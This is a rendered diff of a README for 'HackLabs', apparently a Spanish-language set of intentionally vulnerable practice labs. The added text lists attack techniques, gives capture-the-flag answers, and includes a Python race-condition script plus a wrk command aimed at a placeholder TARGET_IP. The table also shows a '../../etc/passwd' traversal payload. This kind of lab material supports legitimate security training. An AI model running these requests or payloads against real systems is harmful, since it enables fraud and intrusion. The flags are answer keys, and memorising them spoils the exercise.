

Before and after one commit to afsh4ck/HackLabs, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; folded sections open; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -49,16 +49,20 @@
 | Lab | Riesgo | Técnica |
 |-----|--------|---------|
 | API Attacks – Laboratorio de APIs Inseguras | 🔴 Critical | API con endpoints inseguros: auth rota, exposición de datos, inyección, falta de autorización |
+| Business Logic Flaws | 🟠 High | Manipulación de precio client-side, cantidad negativa, cupones apilables |
 | C2 – Sliver (Command & Control) | 🔴 Critical | Sliver C2: generar implant, mTLS listener, transferir y ejecutar payloads |
+| Container Escape | 🔴 Critical | Docker socket, privileged container, cgroup release_agent |
 | CORS Misconfiguration | 🟠 High | Reflejo de Origin + Allow-Credentials |
 | CSRF – Cross-Site Request Forgery | 🟠 High | Cambio de contraseña sin token |
-| File Upload sin restricciones | 🔴 Critical | Subida de webshell sin restricciones |
+| File Upload sin restricciones | 🔴 Critical | Webshell PHP, bypass doble extensión, reverse shell |
 | Insecure Deserialization | 🔴 Critical | Python `pickle.loads()` → RCE |
-| JWT Manipulation | 🟠 High | `alg=none`, secreto débil (hashcat) |
+| JWT Manipulation | 🟠 High | `alg=none`, secreto débil (hashcat), algorithm confusion RS256→HS256 |
 | Login Bruteforce | 🟡 Medium | Hydra, Medusa, CrackMapExec |
+| OAuth 2.0 Attacks | 🟠 High | `redirect_uri` sin validar → robo de authorization code |
 | Open Redirect | 🟡 Medium | Parámetro URL sin whitelist |
-| Path Traversal / LFI | 🟠 High | `../../etc/passwd` |
+| Path Traversal / LFI | 🟠 High | `../../etc/passwd`, log poisoning → RCE |
 | Privilege Escalation (SSH) | 🔴 Critical | SUID, sudo misconfiguration, cron |
+| Race Condition / TOCTOU | 🟠 High | Transferencias concurrentes, TOCTOU, requests paralelos |
 | SSTI – Server-Side Template Injection | 🔴 Critical | Jinja2 `render_template_string` → RCE |
 | XSS – Cross-Site Scripting | 🟠 High | Reflected, Stored, DOM |
 | XXE – XML External Entity | 🟠 High | XML External Entity |
@@ -379,3 +464,34 @@ sliver (ID) > ps
+Flag: `HL{0auth_r3d1r3ct_0wn3d}`
+
+</details>
+
+<details>
+<summary><strong>Race Condition / TOCTOU</strong></summary>
+
+| Nivel | Comportamiento |
+|-------|---------------|
+| Easy | Sin lock + `sleep(0.15)` entre check y write — ventana de carrera amplia |
+| Medium | TOCTOU: check fuera del lock, write dentro (sigue vulnerable con timing) |
+| Hard | Lock correcto — requiere alta concurrencia (Burp Turbo Intruder, wrk, 50+ threads) |
+
+```bash
+# Easy/Medium — 10 requests simultáneos con Python
+python3 -c "
+import requests, threading
+def t():
+    requests.post('http://TARGET_IP/race/transfer',
+        json={'from':'alice','to':'bob','amount':500},
+        headers={'Content-Type':'application/json'})
+threads = [threading.Thread(target=t) for _ in range(10)]
+[t.start() for t in threads]; [t.join() for t in threads]
+"
+# Si bob supera $10 → race condition explotada
+
+# Hard — Burp Turbo Intruder o wrk
+wrk -t50 -c50 -d5s -s post.lua http://TARGET_IP/race/transfer
+```
+
+Flags: `HL{r4c3_c0nd1t10n_3z}` / `HL{t0ct0u_m3d1um}` / `HL{h4rd_r4c3_pr3c1s10n}`
 
 </details>
 
````
Also changed, not shown: other parts of README.md (+92 -11 lines).
